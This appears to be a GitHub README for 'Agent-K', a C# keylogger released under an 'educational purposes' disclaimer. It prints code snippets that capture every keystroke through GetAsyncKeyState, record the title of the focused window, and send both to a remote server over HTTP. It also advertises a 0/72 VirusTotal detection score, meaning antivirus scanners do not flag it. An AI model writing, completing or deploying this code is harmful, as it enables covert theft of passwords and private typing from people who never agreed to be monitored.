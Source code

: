 # Agent-K
.NET C# Basic Keylogger

## Disclaimer
> This software is intended ***exclusively for educational purposes and ethical cybersecurity research***. It is designed to help users understand potential vulnerabilities in systems so they can improve their security.
>
> By using this software, you agree to use it in compliance with all applicable laws and regulations. Unauthorized use, distribution, or deployment of this software against any system without the explicit permission of the system owner is strictly prohibited and may result in criminal and civil penalties.
>
> The creator(s) of this software assume no liability and are not responsible for any misuse or damages arising from the use of this software. Always obtain proper authorization before testing or analyzing systems using this software.

## Features
1. Keystroke Logging
* Captures all key presses.<br>
**WinAPI GetAsyncKeyState() from user32.dll**
```cs
for (int i = 0; i < 255; i++)
{
    int keyState = GetAsyncKeyState(i);
    if (KEY_STATE_LIST.Contains(keyState))
    {
        string key = GetKeyString(i);
        ...
    }
}
```

2. Window Tracking
Retrieves the title of the currently focused window.<br>
**WinAPI GetForegroundWindow() from user32.dll**
```cs
private static string GetWinText()
{
    StringBuilder title = new StringBuilder(256);
    IntPtr hWindow = GetForegroundWindow();
    GetWindowText(hWindow, title, title.Capacity);
    return title.ToString();
}
```

3. Data Transmission
* Sends the key data and window title to a remote server via HTTP.<br>
**C# HttpClient (System.Web)**
```cs
private static async void send(string title, string key, int i) 
{
    HttpClient client = new HttpClient();
    string encodedTitle = HttpUtility.UrlEncode(title);
    string encodedKey = HttpUtility.UrlEncode(key);
    string encodedIndex = HttpUtility.UrlEncode(i.ToString());
    string url = $"{SERVER}?title={title}&char={encodedKey}&index={encodedIndex}";
    HttpResponseMessage response = await client.GetAsync(url);
}
```

## VirusTotal Score
| Version           | Virus Total Link                  | Score             |
|-------------------|-----------------------------------|-------------------|
| Agent-K 1.0.0     | [f5331bde71228ed3604806ebcd0c6d9bb11c04ed8b76ae11cadd05bd7f5f9c58](https://www.virustotal.com/gui/file/f5331bde71228ed3604806ebcd0c6d9bb11c04ed8b76ae11cadd05bd7f5f9c58?nocache=1) | 0/72
| Agent-K 1.0.0 ZIP | [a29eb2f65b674aa216e5a9c674b79b23bda5f466fb74b6048fa0c6da22380919](https://www.virustotal.com/gui/file/a29eb2f65b674aa216e5a9c674b79b23bda5f466fb74b6048fa0c6da22380919?nocache=1) | 0/72
| Agent-K 1.0.0     | [c9e042bdf7db9aef8f296d765e8c179f037a27a2d2cf80b2183a2fb674c4e64c](https://www.virustotal.com/gui/file/c9e042bdf7db9aef8f296d765e8c179f037a27a2d2cf80b2183a2fb674c4e64c/detection) | 0/72